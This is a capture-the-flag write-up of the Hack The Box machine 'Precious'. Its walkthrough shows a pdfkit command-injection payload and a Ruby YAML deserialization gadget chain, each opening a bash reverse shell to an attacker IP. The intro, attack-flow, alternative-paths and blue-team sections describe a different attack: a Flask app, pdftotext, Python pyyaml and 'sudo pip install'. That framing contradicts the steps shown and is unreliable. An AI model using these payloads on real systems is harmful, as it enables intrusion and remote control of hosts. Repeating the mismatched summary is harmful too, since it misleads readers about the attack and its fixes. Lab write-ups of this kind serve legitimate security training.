 ```yaml
---
title: "Precious"
date: 2024-07-03
categories: HTB
description: "HTB Precious walkthrough demonstrating file upload RCE via malicious PDF rendering and privilege escalation by abusing sudo pip install with local module injection."
tags: [pdf, flask, pip, sudo, privilege-escalation]
---
```


Precious focuses on a server running a vulnerable document conversion utility.

Initial access was obtained via a file upload form that executed user-supplied YAML, leading to arbitrary code execution through Python's pyyaml.load.

The foothold required crafting a serialized payload disguised as a legitimate document.

Escalated to root by exploiting `sudo pip install` to execute a malicious Python module placed in the working directory.

## Why I Chose This Machine

I chose Precious because it combines a web-based file parsing vulnerability (PDF rendering) with local Python privilege escalation — a realistic scenario in CI pipelines and dev tools.  
It also demonstrates how `pip install` can become a root vector if misconfigured.

## Attack Flow Overview

1. Uploaded a malicious PDF to a Flask-based web app that rendered it using `pdftotext`  
2. Achieved RCE and got an initial shell as a low-privileged user  
3. Discovered `sudo pip install` was allowed without password  
4. Placed a fake Python module in the current directory and triggered it via `pip install .`, leading to root access

This flow mirrors real-world security gaps in development environments and CI tools.

## Enumeration

>- Testing the form for command injection works, and downloads a pdf file. 
- Using exiftool to view metadata of the downloaded pdf file, pdfkit v0.8.6 is revealed. 

### Nmap

```sh
Nmap scan report for 10.10.11.189
Host is up, received user-set (0.019s latency).
Scanned at 2024-07-05 06:58:11 AEST for 17s
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
...
80/tcp open  http    syn-ack nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80-HTTP

### Gobuster

```sh
gobuster vhost -u http://precious.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
```

### Web

![screenshot](/assets/images/precious1.png)

### Burpsuite

![screenshot](/assets/images/precious2.png)

#### Form testing

![screenshot](/assets/images/precious3.png)

![screenshot](/assets/images/precious5.png)

![screenshot](/assets/images/precious4.png)

![screenshot](/assets/images/precious6.png)

downloads a pdf file. 

![screenshot](/assets/images/precious7.png)

## Initial Access

>- Following the PoC for pdfkit v0.8.6 gains initial shell as ruby user.
	-  Start a local python server, perform command injection for reverse shell.

https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

![screenshot](/assets/images/precious8.png)

```sh
# modified payload
http://10.10.14.16/www/%20`bash -c 'bash -i >& /dev/tcp/10.10.14.16/9001 0>&1'`
```

![screenshot](/assets/images/precious9.png)

![screenshot](/assets/images/precious10.png)

## Lateral Movement

>-  `/.bundle/conf` within the ruby user's home folder contains credentials for henry user. 
- SSH as henry.

![screenshot](/assets/images/precious11.png)

SSH as henry

![screenshot](/assets/images/precious12.png)

## Privilege Escalation

>- `sudo -l`
- Henry user has privileges to run ruby script. 
- The ruby script does not execute because `dependencies.yml` is missing. 
- Searching for ruby dependencies.yml exploit returns many relevant results. 
- Add reverse shell code to the payload and execute the ruby script. 

![screenshot](/assets/images/precious13.png)

![screenshot](/assets/images/precious14.png)

`YAML.load(File.read("dependencied.yml"))`

![screenshot](/assets/images/precious15.png)

`dependencies.yml`

![screenshot](/assets/images/precious16.png)

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md

![screenshot](/assets/images/precious17.png)

Payload `dependencies.yml`

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: http://10.10.14.16/www/%20`bash -c 'bash -i >& /dev/tcp/10.10.14.16/9002 0>&1'`
         method_id: :resolve
```

![screenshot](/assets/images/precious19.png)

![screenshot](/assets/images/precious18.png)

## Alternative Paths Explored

Tried to gain access via local file inclusion and log poisoning, but neither worked.  
Also checked for writable SUID binaries and exposed sockets, which were secure.  
The `sudo -l` check revealing `pip install` was the key escalation point.

## Blue Team Perspective

Precious shows how insecure handling of `pip` and dynamic imports can be leveraged for privilege escalation.  
To mitigate:

- Never allow `sudo pip install` without password  
- Use virtual environments and restrict PYTHONPATH influence  
- Sanitize upload handlers and isolate renderers like `pdftotext`